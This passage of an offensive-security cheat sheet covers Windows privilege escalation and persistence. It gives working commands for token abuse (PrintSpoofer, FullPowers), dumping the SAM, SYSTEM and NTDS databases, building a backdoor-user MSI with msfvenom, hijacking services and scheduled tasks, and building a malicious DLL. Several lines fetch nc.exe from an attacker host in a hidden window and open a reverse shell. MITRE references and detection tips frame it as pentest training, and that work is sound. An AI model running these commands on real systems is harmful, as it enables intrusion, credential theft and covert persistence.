For more information about that technique refer to [T1552.006 - Unsecured Credentials: Group Policy Preferences](https://attack.mitre.org/techniques/T1552/006/)

#### Windows Patches

Please note that it is not easy to find vulnerabilities with the output we receive from the query below.
KB Number depends on OS version and Service Pack, which make it difficult to directly map missing pack to known vulnerabilities.
However, if the "InstalledOn" column don't show patches that are "only" a few months old, this can be juicy.

```bash
wmic qfe get Caption,Description,HotFixID,InstalledOn # Get Installed patches
```

There is the following Metasploit Module available to enumerate windows patches *post/windows/gather/enum_patches*

:white_check_mark: How to protect against or detect that technique:

- *Active Defense*: Monitor for suspicious Windows Management Instrumentation activities

#### Privilege Abuse

```bash
# Bash
whoami # Displays the current domain and user name.
whoami /all # Displays all information in the current access token, including the current user name, security identifiers (SID), privileges, and groups that the current user belongs to.
# Powershell
$env:UserName
[Security.Principal.WindowsIdentity]::GetCurrent()
```

Check for the following access tokens

> / / / To Finish

|Privilege|Impact|Tool|Notes|
|-|-|-|-|
|SeAssignPrimaryToken|Admin|3rd party tool| Exploit either<br /> - rottenpotato.exe <br /> - juicypotato.exe|
|SeBackup|Threat|CLI|Read sensitve files|
|SeCreateToken|Admin|3rd party tool|
|SeDebug|Admin|PowerShell|<https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Conjure-LSASS.ps1>|
|SeImpersonatePrivilege|Admin|[https://github.com/itm4n/PrintSpoofer](https://github.com/itm4n/PrintSpoofer)|
|SeLoadDriver|Admin|[EoPLoadDriver](https://github.com/TarlogicSecurity/EoPLoadDriver/)|
|SeRestore|Admin||
|SeTakeOwnership|Admin||
|SeTcb|Admin||

- SeBackupPrivilege:
  - reg save HKLM\SAM sam.hive
  - reg save HKLM\SYSTEM system.hive
  - reg save hklm\security security.hive

  &#8594; mimikatz

- SeImpersonatePrivilege
  &#8594; PrintSpoofer

  ```bash
  PrintSpoofer.exe -i -c powershell
  ```

  How it works is explained in details [here](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)

- SeLoadDriverPrivilege: Load malicious driver [Capcom.sys](https://github.com/FuzzySecurity/Capcom-Rootkit) using [EoPLoadDriver](https://github.com/TarlogicSecurity/EoPLoadDriver/)

  ```bash
  EOPLOADDRIVER.exe System\\CurrentControlSet\\MyService C:\\Users\\Username\\Desktop\\Driver.sys
  ```

- SeBackupPrivilege & SeRestorePrivilege:

  You can get yourself admin right of anyfolder

  ```powershell
  $user = "AD\Compromised User"
  $folder = "C:\InterestingFolder"
  $acl = Get-Acl $Folder
  $aclperms = $user,"FullControl","ContainerInherit,ObjectInherit","None","Allow"
  $aclrule = New-Object System.Security.AccessControl.FileSystemAccessRule $aclperms
  $acl.AddAccessRule($aclrule)
  Set-Acl -Path $Folder -AclObject $acl
  Get-Acl "C:\InterestingFolder" | fl
  ```

- SeRestorePrivilege: Modify a service that can be started by anyone and

Members of the "Backup Operators" can logon locally on a Domain Controller and backup the NTDS.DIT
For Instance:

```bash
wbadmin start backup -backuptarget:*e* -include:c:\windows\ntds
wbadmin get versions
wbadmin start recovery -version:*version* -recoverytarget:c:\temp\srvdc1 -notrestoreacl
```

or diskshadow: <https://youtu.be/ur2HPyuQlEU?t=1121>

For more information on those techniques:

- [T1003.002 - OS Credential Dumping: Security Account Manager](https://attack.mitre.org/techniques/T1003/002/)

#### Task Scheduler

##### Directory Access technique

We need to see if we have access to the folder where all the tasks are stored. If yes, we can leverage that.

```bash
# Note that it don't show "C:\Windows\System32\Tasks"
# So for instance a TaskPath with "Microsoft\XblGameSave" means "C:\Windows\System32\Tasks\Microsoft\XblGameSave"
schtasks /query /fo LIST 2>nul | findstr TaskName
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName, TaskPath, State


icacls C:\Windows\system32\Tasks
```

:white_check_mark: How to protect against or detect that technique:

- *Active Defense*: Monitor creation and changes of scheduled task though Windows Event ID 4698, 4700 and 4701

For more information about that technique refer to [T1053.005 - Scheduled Task/Job: Scheduled Task](https://attack.mitre.org/techniques/T1053/005/)

##### SeImpersonatePrivilege technique

First, let's have a look at the following [Microsoft Security Hardening feature](https://docs.microsoft.com/en-us/windows/win32/taskschd/task-security-hardening) for scheduled tasks

> *If RequiredPrivileges is not present in the task definition, the default privileges of task principal account without the SeImpersonatePrivilege will be used for task process. If ProcessTokenSidType is not present in the task definition, “unrestricted” is used as the default.*

On Windows, some services executed as *LOCAL SERVICE* or *NETWORK SERVICE* are configured to run with a restricted set of privileges.
However, within the Register-ScheduledTask cmdlet, we can perform some token manipulation in order to get the **SeImpersonatePrivilege**

We need to pass the "-RequiredPrivilege" to the Register-ScheduledTask cmdlet in order to go around that

[FullPowers](https://github.com/itm4n/FullPowers) is a tool that allows us to automatically recovering the default privilege set of a service account including SeAssignPrimaryToken and SeImpersonate.

*Note that this tool should be executed as LOCAL SERVICE or NETWORK SERVICE only*

```bash
# Simple recovery
FullPowers
# Specify a custom command line
FullPowers -c "powershell -ep Bypass"
# Start a netcat reverse shell and exit
FullPowers -c "C:\nc64.exe 1.2.3.4 1337 -e cmd" -z
```

#### AlwaysInstallElevated

AlwaysInstallElevated allows that any user can install .msi files as **NT AUTHORITY\SYSTEM**
You can check if it's enabled by checking both those registry keys

```bash
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated
```

You can then create a malicious msi binary and execute it.

```bash
msfvenom -p windows/adduser USER=backdoor PASS=backdoor123 -f msi -o evil.msi
msiexec /quiet /qn /i C:\evil.msi
```

There is a Metasploit module for it *exploit/windows/local/always_install_elevated*

### Scheduled Tasks Enumeration

Check if you have write access to "C:\Windows\system32\Tasks"

> / / / To Finish

```bash
schtasks /query /fo LIST /v
```

Here are interesting schedule time for persistence:

- ONSTART: Specifies that the task runs every time the system starts. You can specify a start date, or run the task the next time the system starts.
- ONLOGON: Specifies that the task runs whenever a user (any user) logs on. You can specify a date, or run the task the next time the user logs on.
- ONIDLE: Specifies that the task runs whenever the system is idle for a specified period of time. You can specify a date, or run the task the next time the system is idle.

[SharPersist](https://github.com/fireeye/SharPersist) can be used to try to perform a Scheduled Task Backdoor

When creating a new scheduled task, try to masquerade it with something like:

- WindowsUpdate
- WMIPerformanceAdapterExtension
- ..

```bash
# Scheduled Task Backdoor
SharPersist -t schtaskbackdoor -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -n "WMIPerformanceAdapterExtension" -m add
```

For more information about those techniques refer to:

- [T1036.004 - Masquerading: Masquerade Task or Service](https://attack.mitre.org/techniques/T1036/004/)
- [T1053.005 - Scheduled Task/Job: Scheduled Task](https://attack.mitre.org/techniques/T1053/005/)

### Service Enumeration

Services can be interesting for two reasons:

- Establish perstistence
- Perform a privilege escalation towards SYSTEM or adminitrator through a misconfugred service

```bash
# Displays all service and their name
wmic service get pathname,startname
# Displays all service that are running
Get-Service | where object {$ .status -eq ''Running''}
# Search for "Unquoted Service Path" vulnerable services
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v 

# Automated script to list all services path
sc query state=all | findstr "SERVICE_NAME:" >> Servicenames.txt
FOR /F %i in (Servicenames.txt) DO echo %i
type Servicenames.txt
FOR /F "tokens=2 delims= " %i in (Servicenames.txt) DO @echo %i >> services.txt
FOR /F %i in (services.txt) DO @sc qc %i | findstr "BINARY_PATH_NAME" >> path.txt
```

There is the following Metasploit Module available to enumerate weak permissions on services *post/windows/local/service_enumeration*

If there is are path that contains whitespace and run as *LocalSystem*, Unquoted Service Path vulnerability.
When Windows starts a service, it looks for the PATH where that services is locating. If any unquoted (has space) in the PATH the service can be manipulating.
Here below is an example of a Windows Service that is vulnerable:


NIHardwareService is vulnerable as:

- *C:\Program Files\Common Files\Native Instruments\Hardware\NIHardwareService.exe* contain a whitespace and is not quoted
- The service has an *AUTO_START* start type
- The service is runnig whith high privilege, *LocalSystem*

If there are services that haves the **RP** permission for Authenticated Users **AU** ....

We can also use the Sysinternals tool [accesschk](https://docs.microsoft.com/en-us/sysinternals/downloads/accesschk) in order to check which service(s) may be vulnerable.

```bash
accesschk64.exe -uwcqv *
# Search for all services that Authenticated Users can modify
accesschk64.exe -uwcqv "Authenticated Users" *
# Search for all services that everyone can modify
accesschk64.exe -uwcqv "Everyone" *
accesschk64.exe -ucqv SERVICE_NAME
accesschk64.exe -c SERVICE_NAME
```

*Common* Options:

- **-u**: Suppress errors
- **-w**: Show only objects that have write access
- **-c**: Searh for Windows Services
- **-q**: Omit Banner
- **-v**: Verbose (includes Windows Vista Integrity Level)

```bash
# Bash
sc qc SERVICE_NAME
sc config upnphost binpath= "C:\nc.exe -nv 127.0.0.1 9988 -e C:\WINDOWS\System32\cmd.exe"
sc config upnphost obj= ".\LocalSystem" password= ""
sc qc upnphost
net start upnphost

# PowerShell
Get-Service
Get-Service | Where-Object {$_.Name -eq "SERVICE_NAME"} | Select -Property *
Restart-Service -Name SERVICE_NAME
```

- **binpath=** : Specifies a path to the service binary file.
- **obj=**: Specifies a name of an account in which a service will run, or specifies a name of the Windows driver object in which the driver will run.
- **password=**: Specifies a password. This is required if an account other than the LocalSystem account is used.

:white_check_mark: How to protect against or detect that technique:

- *Passive Defense*: Audit services that are running under administrator account or SYSTEM and make sure that they can ony be manipulated by administrators.
- *Active Defense*: Monitor processes and command-line arguments for actions that could create or modify services.

For more information about that technique refer to:

- [T1007 - System Service Discovery](https://attack.mitre.org/techniques/T1007/)
- [T1543.003 - Create or Modify System Process: Windows Service](https://attack.mitre.org/techniques/T1543/003/)

###### *If you don't know, now you know : [Service Security and Access Rights](https://docs.microsoft.com/en-us/windows/win32/services/service-security-and-access-rights)*

- SERVICE_CHANGE_CONFIG: We can configure an arbitrary executable to launch when a service starts
- WRITE_DAC: We can modify the permissions on a service to grant ourself SERVICE_CHANGE_CONFIG access.
- WRITE_OWNER: We can become owner of it
- GENERIC_WRITE: It inherits the SERVICE_CHANGE_CONFIG permissions
- GENERIC_ALL: It inherits the SERVICE_CHANGE_CONFIG permissions

###### *If you don't know, now you know : [Service Accounts](https://docs.microsoft.com/en-us/windows/win32/services/service-user-accounts)*

- The **[NT AUTHORITY\LocalService](https://docs.microsoft.com/en-us/windows/win32/services/localservice-account)** account is a predefined local account used by the service control manager. It has minimum privileges on the local computer and presents anonymous credentials on the network.
Here are the service permissions this account has:
  - READ_CONTROL
  - SERVICE_ENUMERATE_DEPENDENTS
  - SERVICE_INTERROGATE
  - SERVICE_QUERY_CONFIG
  - SERVICE_QUERY_STATUS
  - SERVICE_USER_DEFINED_CONTROL

- The **[NetworkService](https://docs.microsoft.com/en-us/windows/win32/services/networkservice-account)** account is a predefined local account used by the service control manager. It has minimum privileges on the local computer and acts as the computer on the network. A service that runs in the context of the NetworkService account presents the computer's credentials to remote servers.
This account has the same permissions as LocalService.

- The **[LocalSystem account](https://docs.microsoft.com/en-us/windows/win32/services/localsystem-account)** is a predefined local account used by the service control manager. It has extensive privileges on the local computer, Local System acts as the machine account on the network. Its token includes the **NT AUTHORITY\SYSTEM** and **BUILTIN\Administrators** SIDs; these accounts have access to most system objects. The name of the account in all locales is .\LocalSystem. The name, LocalSystem or ComputerName\LocalSystem can also be used. Localsystem is the most privileged account in a system, it's the only account that is able to access the security database (HKLM\Security).
Here are the additional service permissions this account has compared to LocalService:
  - SERVICE_PAUSE_CONTINUE
  - SERVICE_START
  - SERVICE_STOP
  - SERVICE_USER_DEFINED_CONTROL

###### *If you don't know, now you know : [Privileges](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/user-rights-assignment)*

A **privilege** is the right of an account, such as a user or group account, to perform various system-related operations on the local computer, such as shutting down the system, loading device drivers, or changing the system time.

Privileges can be managed through the "User Right Assignment" which provides an overview and links to information about the User Rights Assignment security policy settings user rights that are available in Windows.

Some privileges are available only in high integrity level process

Here are some juicy tokens to look for:

- [SeAssignPrimaryTokenPrivilege](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/replace-a-process-level-token): Replace a process level token
- [SeDebugPrivilege](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/debug-programs): Allows the user to attach a debugger to any process.
The SeDebugPrivilege has the capability of reading and writing memory, as well as change properties of **any** processes (including Local Sytem or Administrator)
The SeDebugPrivilege has been created in order to give the possibility to perform privileged tasks with API calls like:
  - VirtualAlloc()
  - WriteProcessMemory()
  - CreateRemoteThread()
  - UpdateProcThreadAttribute(): You can perform ParentID Spofing using this attribute
- [SeBackup](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/back-up-files-and-directories): Back up files and directories.
- [SeCreateToken](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/create-a-token-object): Create a token object.
- [SeImpersonatePrivilege](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/impersonate-a-client-after-authentication): Impersonate a client after authentication
- [SeRestorePrivilege](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/restore-files-and-directories): Allows a user to circumvent file and directory permissions when restoring backed-up files and directories.
Here are some API calls available with this privilege:
  - CreateFile()
  - RegCreateKeyEx(): For instance change parameter of a Windows service that can be started by everybody
- [SeTakeOwnership](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/take-ownership-of-files-or-other-objects): Allows the user to take ownership of any securable object in the system.
Here are some API calls available with this privilege:
  - [SetSecurityInfo](https://docs.microsoft.com/en-us/windows/win32/api/aclapi/nf-aclapi-setsecurityinfo): Sets specified security information in the security descriptor of a specified object.
  - [SetNamedSecurityInfo](https://docs.microsoft.com/en-us/windows/win32/api/aclapi/nf-aclapi-setnamedsecurityinfoa): Sets specified security information in the security descriptor of a specified object. The caller identifies the object by name.
  Both those API can be used with the following types of objects:
    - Local or remote files or directories on an NTFS
    - Local or remote Windows services
    - Network shares
    - Registry keys
    - ...
- [SeTcbPrivilege](https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/act-as-part-of-the-operating-system): The SeTcbPrivilege policy setting determines whether a process can assume the identity of any user and thereby gain access to the resources that the user is authorized to access. Typically, only low-level authentication services require this user right.

Those accounts have special privileges:

- Administrators &#8594; Have **most** of the privileges
- Some built-in groups (Backup, Server, Printer Operators) &#8594; For instance Backup service have **SeBackup** and **SeRestorePrivilege** privileges
- Local/network service accounts
- Managed Service and Virtual Accounts
- Third party application users
- Misconfigured users

###### *If you don't know, now you know : [Access Tokens](https://docs.microsoft.com/en-us/windows/win32/secauthz/access-tokens)*

A Token contains interesting things like:

- A list of privileges held by either the user or the user's groups.
- The token type:
  - Primary: An access token that is typically created only by the Windows kernel. It may be assigned to a process to represent the default security information for that process.
  - Impersonation: An access token using different security information than the process that owns the thread.
- The current [impersonation level](https://docs.microsoft.com/en-us/windows/win32/secauthz/impersonation-levels):
  - SecurityAnonymous (Not Used for PrivEsc): The driver cannot impersonate or identify the client.
  - SecurityIdentification (Not Used for PrivEsc): The driver can obtain the identity and privileges of the client but cannot impersonate the client.
  - SecurityImpersonation: The driver **can impersonate the client's security context on the local system**.
  - SecurityDelegation:The driver **can impersonate the client's security context on remote systems.**



Once an access token is created, you **cannot** changes his privileges, but you **can** enable or disable privileges.

You can also change the token type.

###### *If you don't know, now you know : [Security Descriptor](https://docs.microsoft.com/en-us/windows/win32/secauthz/security-descriptors)*

Each object stores a value called a security descriptor(SD), in the **nTSecurityDescriptor** attribute.

Security descriptors define the security attributes of securable objects such as files, registry keys, WMI namespaces, printers, services, or shares.

A security descriptor contains information about the owner and primary group of an object. A provider can compare the resource security descriptor to the identity of a requesting user, and determine whether or not the user has the right to access the resource that a user is requesting.

A security descriptor can include the following security information:

- Security identifiers (SIDs) for the owner and primary group of an object.
- A System ACL (SACL) that specifies the types of access attempts that generate audit records for the object.
- A Discretionary ACL (DACL) that specifies the access rights allowed or denied to particular users or groups.
- A set of control bits that qualify the meaning of a security descriptor or its individual members.



###### *If you don't know, now you know: [DACLs & ACEs](https://www.windowstechno.com/what-is-ntds-dit/)*

Both System ACL and Discretionary ACL holds a collection of access control entries (ACEs) that correspond to individual audit or permission entries.

Every permission granted in Active Directory is based on these ACE structures.

By default, the DACLs for nearly every AD objectcan be enumerated by **any authenticated user** in the domain through LDAP!

How it works

- No DACL &rarr; Full Access for everyone
- DACL defined &rarr; Access allowed by the ACEs within that DACLs

All ACEs contain the following access control information:

- **Trustee**: The SID of the user or group to which the ACE applies
- **ACE Type**: Determines whether the ACE is an allow or a deny.
- **Object Type**: The *schemaIDGUID* for the attribute or object class that the ACE applies to or the *rightsGuid* for the property set
- **Inherited Object Type**: The *schemaIDGUID* for the types of object that the ACE applies to when an attribute, property set, or validated right is specified or when the ACE is inherited
- **Access Mask**: A bit flag that describes the type of access, such as Read, Write, List, Create, Delete,
Control Access, etc.
- **Flags**: There are actually two different fields for flags. The flags specify inheritance settings such as ACE is inherited, ACE is allowed to be inherited, ACE is not inheritable, etc

Access Control Entries describe the allowed and denied permissions for other principals in Active Directory against the securable object.

Microsoft has introduced several new “tools” that are not present in the NTFS ACLs

These tools are called property sets, validated writes, and extended rights. Instead of inserting the *schemaIDGUID* into the Object Type field of an ACE, you can insert the *rightsGuid* attribute of the property set, validated write, or extended right object. These objects are all stored in the *cn=extended-rights* subcontainer of the Configuration container.

- Inherited Versus Explicit Permissions

- **Explicit permissions** are permissions that are directly applied to an object
- **Inherited permissions** are permissions that are applied at some level of the tree above the object and "flow down" to the object and its children.

The rules for what access will result from a set of inherited and explicit ACEs are easiest to understand when taken in steps:

1. Deny ACEs override grant ACEs of the same type (inherited versus explicit) and application point in the directory tree.
2. Explicit ACEs override inherited ACEs.
3. Inherited ACEs are hierarchical (e.g., an inherited deny applied to a container will be overridden by an inherited grant applied to containers nested below it in the same tree).

Most simply, the closest ACEs to an object will dictate the access for that object.

Some of the Active Directory object permissions and types that we as attackers are interested in:

- **GenericAll**: Full rights to the object (add users to a group or reset user's password)
- **GenericWrite**: Update object's attributes (i.e logon script)
- **WriteOwner**: Change object owner to attacker controlled user take over the object
- **WriteDACL**: Modify object's ACEs and give attacker full control right over the object
- **AllExtendedRights**: Ability to add user to a group or reset password
- **ForceChangePassword**: Ability to change user's password
- **Self (Self-Membership)**: Ability to add yourself to a group

#### Autostarts

##### Autoruns

```bash
autorunsc.exe -a | findstr /n /R "File\ not\ found"

reg query HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
reg query HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce
reg query HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce
reg query HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnceEx
reg query HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnceEx
reg query HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce
reg query HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce
```

Note that on 64-bit Windows, portions of the registry entries are stored separately for 32-bit application and 64-bit applications and mapped into separate logical registry views using the registry redirector and registry reflection, because the 64-bit version of an application may use different registry keys and values than the 32-bit version.

So if it is a Windows 64-bit, it is worst checking those registry keys

```bash
reg query HKEY_LOCAL_MACHINE\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Run
reg query HKEY_CURRENT_USER\SOFTWARE\Wow6432Node\\Microsoft\Windows\CurrentVersion\RunOnce
reg query HKEY_LOCAL_MACHINE\SOFTWARE\Wow6432Node\\Microsoft\Windows\CurrentVersion\RunOnce
reg query HKEY_CURRENT_USER\SOFTWARE\Wow6432Node\\Microsoft\Windows\CurrentVersion\RunOnce
```

We can try to replace some of their .exe

:white_check_mark: How to protect against or detect that technique:

- *Active Defense*: Monitor Registry for changes to run keys that do not correlate with known software, patch cycles, etc.

For more information about that technique refer to [T1547.001 - Boot or Logon Autostart Execution: Registry Run Keys / Startup Folder](https://attack.mitre.org/techniques/T1547/001/)

##### Windows StartUp folder

Placing a program within a startup folder will also cause that program to execute when a user logs in.
There is a startup folder location for individual user accounts as well as a system-wide startup folder that will be checked regardless of which user account logs in.

```bash
dir C:\Users[Username]\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup

# All Users (NT 6.1 & NT 6.0)
dir "%SystemDrive%\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
# Specific users (Windows NT 6.1 & NT 6.0)
dir "%SystemDrive%\Users\%UserName%\AppData\Roaming\Microsoft\Windows\StartMenu\Programs\Startup"

# Windows NT 5.2, 5.1, 5.0
dir "%SystemDrive%\Documents and Settings\All Users\Start Menu\Programs\Startup"
```

In order to checks access, we can use [icacls](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls)

```bash
icacls C:\USER\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

Check the last leter within the parantheses which is interpretted as the following:

- **D**: Delete access
- **F**: Full access (Edit_Permissions+Create+Delete+Read+Write)
- **N**: No access
- **M**: Modify access (Create+Delete+Read+Write)
- **RX**: Read and execute access
- **R**: Read-only access
- **W**: Write-only access

:white_check_mark: How to protect against or detect that technique:

- *Active Defense*: Monitor Registry for changes to run keys that do not correlate with known software, patch cycles, etc.

For more information about that technique refer to [T1547.001 - Boot or Logon Autostart Execution: Registry Run Keys / Startup Folder](https://attack.mitre.org/techniques/T1547/001/)

#### Vulnerable Drivers

[DriverQuery](https://github.com/matterpreter/OffensiveCSharp/tree/master/DriverQuery) search for vulnerable drivers that are loaded.

```bash
DriverQuery.exe --no-msft
```

For more information about that technique refer to [T1082 - System Information Discovery](https://attack.mitre.org/techniques/T1082/)

#### DLL hijacking

DLL hijacking is an attack involves a  DLL taking over from a legitimate DLL.
Here are the variations:

- **DLL replacement**: replace a legitimate DLL with an evil DLL.
- **DLL search order hijacking**: DLLs specified by an application without a path are searched for in fixed locations in a specific order
- **Phantom DLL hijacking**: drop an evil DLL in place of a missing/non-existing DLL that a legitimate application tries to load
- **DLL redirection**: change the location in which the DLL is searched for, e.g. by editing the %PATH% environment variable, or .exe.manifest / .exe.local files to include the folder containing the evil DLL
- **WinSxS DLL replacement**: replace the legitimate DLL with the evil DLL in the relevant WinSxS folder of the targeted DLL.
- **Relative path DLL Hijacking**: copy (and optionally rename) the legitimate application to a user-writeable folder, alongside the evil DLL.

#### DLL search order hijacking

Microsoft once mentionned the following
>“When an application dynamically loads a dynamic-link library without specifying a fully qualified path name, Windows attempts to locate the DLL by searching a well-defined set of directories in a particular order.
>If an attacker gains control of one of the directories on the DLL search path, it can place a malicious copy of the DLL in that directory. This is sometimes called a DLL preloading attack or a binary planting attack. If the system does not find a legitimate copy of the DLL before it searches the compromised directory, it loads the malicious DLL. If the application is running with administrator privileges, the attacker may succeed in local privilege elevation.”

Here is the order (Note that it depends if SafeDllSearchMode is enabled or not):

1) The directory from which the application is loaded
2) The system directory
3) The 16-bit system directory
4) The Windows directory (C:\Windows)
5) The current directory (same as 1 unless otherwise specified)
6) The directories that are listed in the PATH environment variable


Source: <https://itm4n.github.io/windows-dll-hijacking-clarified/>

/!\ On a 64-bit version of Windows, 64-bit executables are located in C:\Windows\System32\ and 32-bit executables are located in C:\Windows\SysWow64\.

in this context, the term *Known DLL* has a very specific meaning. These DLLs are listed in the *HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDLLs* registry key and are guaranteed to be loaded from the System folder.

*Note that services running under SYSTEM does not search through user path environment.*

```bash
icacls C:\Windows\System32
icacls C:\Windows\System
icacls C:\Windows
```

If we have access to **Write** access to those folders, we could replace the .DLL with a malicious one.

There is a tool developped by CyberArk called [DLLSpy](https://github.com/cyberark/DLLSpy) that can detects DLL hijacking in running processes, services and in their binaries.
Note that DLLSpy requires admin privilege.
We can also try by using "Start-Process"

```bash
DLLSpy.exe
Start-Process -PassThru process.exe | Get-Process -Module
```

[dll_hijack_detect](https://github.com/adamkramer/dll_hijack_detect) detects DLL hijacking in running processes on Windows systems
This program will:

1) Iterate through each running process on the system, identifying all the DLLs which they have loaded
2) For each DLL, inspect all the locations where a malicious DLL could be placed
3) If a DLL with the same name appears in multiple locations in the search order, perform an analysis based on which location is currently loaded and highlight the possibility of a hijack to the user

It also check each DLL to see whether it has been digitally signed.
This is because since Windows Vista and Windows Server 2008, new features take advantage of code-signing technologies:

- Administrator privilege is required to install unsigned kernel-mode components (device drivers, filter drivers, services, and so on.)

```bash
.\dll_hijack_detect_x64.exe
```

Here below is the code to create a malicious DLL

```c
#include <windows.h>

BOOL WINAPI DllMain(HINSTANCE hinstDLL,DWORD fdwReason, LPVOID lpvReserved)
{
 WinExec(PAYLOAD,SW_HIDE);
 return 0;
}
```

Here are the command to compile it:

```bash
# x86
i686-w64-mingw32-g++ -c -DBUILDING_EXAMPLE_DLL main.cpp
i686-w64-mingw32-g++ -shared -o main.dll main.o -Wl,--out-implib, main.a
# x64
x86_64-w64-mingw32-g++ -c -DBUILDING_EXAMPLE_DLL main.cpp
x86_64-w64-mingw32-g++ -shared -o main.dll main.o -Wl,--out-implib, main.a
```

The **-DBUILDING_EXAMPLE_DLL** compiler option causes the DLL's functions to be declared as "dllexport", meaning that they will be "exported" from the DLL and available to client applications.
The **-shared**"** option tells the linker to create a DLL instead of an .exe

To create a Dynamic-Link Library (DLL), you must create one or more source code files, and possibly a linker file for exporting the functions. To allow applications that use your DLL to use load-time dynamic linking, you must also create an import library using **-Wl,--out-implib**

*Note that it requires the following package: mingw-w64*

We can either:

- Download nc.exe through HTTP by hosting a Web Server

```bash
# Windows 7 and Windows Server 2008 R2 + newer
powershell -windowstyle hidden Invoke-WebRequest -uri http://OUR_IP/nc.exe -outfile nc.exe & nc.exe OUR_IP OUR_NC_PORT -e powershell.exe
# Older
powershell -windowstyle hidden Invoke-WebRequest -uri http://OUR_IP/nc.exe -outfile nc.exe & nc.exe OUR_IP OUR_NC_PORT -e cmd.exe
```

- Create a SMB server using python-impacket/smbserver.py

```bash
# Create a SMB server using impacket's smbserver.py
python3 /usr/share/python-impacket/smbserver.py temporary /tmp/ -smb2support
```

```powershell
# Windows 7 and Windows Server 2008 R2 + newer
powershell -windowstyle hidden copy \\\\\\\OUR_IP\\\temporary\\\\nc.exe & nc.exe OUR_IP OUR_NC_PORT -e powershell.exe
# Older
powershell -windowstyle hidden copy \\\\\\\OUR_IP\\\temporary\\\\nc.exe & nc.exe OUR_IP OUR_NC_PORT -e cmd.exe
```

:white_check_mark: How to protect against or detect that technique:

- *Architecture*: When developping applications,use fully qualified path when loading DLLs
- *Architecture*: If available, use the function such as [SetDllDirectoryA](https://docs.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-setdlldirectorya) *with empty string* to removes the current directory from the default DLL search order.
- *Architecture*: Disallow loading of remote DLLs.
- *Architecture*: Enable Safe DLL Search Mode to force search for system DLLs in directories with greater restrictions *(e.g. %SYSTEMROOT%)* to be used before local directory DLLs
- *Passive Defense*: Audit for DLL search order hijacking opportunities on systems within an enterprise and correct them.
- *Active Defense*: Use Endpoint Protection system which odentify and block potentially malicious software executed through search order hijacking.
- *Active Defense*: Monitor file systems for moving, renaming, replacing, or modifying DLLs outside planned installations/updates.
- *Active Defense*: Monitor changes in the set of DLLs that are loaded by a process (compared with past behavior) that do not correlate with known software.
- *Active Defense*: Monitor DLLs loaded into a process and detect DLLs that have the same file name but abnormal paths.

For more information about that technique refer to [T1574.001 - Hijack Execution Flow: DLL Search Order Hijacking](https://attack.mitre.org/techniques/T1574/001/)

##### DLL Proxying

Application loads DLLs because it needs to use one or more functions it exports.
If those exports are not there, the DLL won't be properly loaded and our payload will never be executed.

DLL Proxying is the technique where we export the required functions without actually implement them.

DLL Proxying is achieved through a DLL Wrapper. The idea is very simple and quite self-explanatory at this point.
A DLL Wrapper consists in redirecting all the functions to the original DLL using forwarders.

1) List the DLLs loaded by the target application on startup and choose one to proxy.
2) Use DLL Export Viewer to list the functions exported by the DLL. *(View > HTML Report - All Functions)*
3) Parse the result and generate the export directives for Visual Studio. *(Python script below)*
4) Add your own code to the DLL Wrapper. *(C code below)*

```python
"""
The report generated by DLL Exported Viewer is not properly formatted so it can't be analyzed using a parser unfortunately.
"""
from __future__ import print_function
import argparse

def main():
    parser = argparse.ArgumentParser(description="DLL Export Viewer - Report Parser")
    parser.add_argument("report", help="the HTML report generated by DLL Export Viewer")
    args = parser.parse_args()
    report = args.report

    try:
        f = open(report)
        page = f.readlines()
        f.close()
    except:
        print("[-] ERROR: open('%s')" % report)
        return

    for line in page:
        if line.startswith("<tr>"):
            cols = line.replace("<tr>", "").split("<td bgcolor=#FFFFFF nowrap>")
            function_name = cols[1]
            ordinal = cols[4].split(' ')[0]
            dll_orig = "%s_orig" % cols[5][:cols[5].rfind('.')]
            print("#pragma comment(linker,\"/export:%s=%s.%s,@%s\")" % (function_name, dll_orig, function_name, ordinal))

if __name__ == '__main__':
    main()
```

Copied from [here](https://itm4n.github.io/dll-proxying/)

```c
#pragma once
// BEGIN: export directives for the linker
#pragma comment(linker,"/export:SymFreeDiaString=dbghelp_orig.SymFreeDiaString,@1111")
#pragma comment(linker,"/export:SymGetDiaSession=dbghelp_orig.SymGetDiaSession,@1112")
#pragma comment(linker,"/export:SymGetLineFromAddrEx=dbghelp_orig.SymGetLineFromAddrEx,@1113")
// ...
#pragma comment(linker,"/export:symsrv=dbghelp_orig.symsrv,@1353")
#pragma comment(linker,"/export:vc7fpo=dbghelp_orig.vc7fpo,@1354")
// END: export directives for the linker

#include <windows.h>
#include <string>
....
```

:white_check_mark: How to protect against or detect that technique:

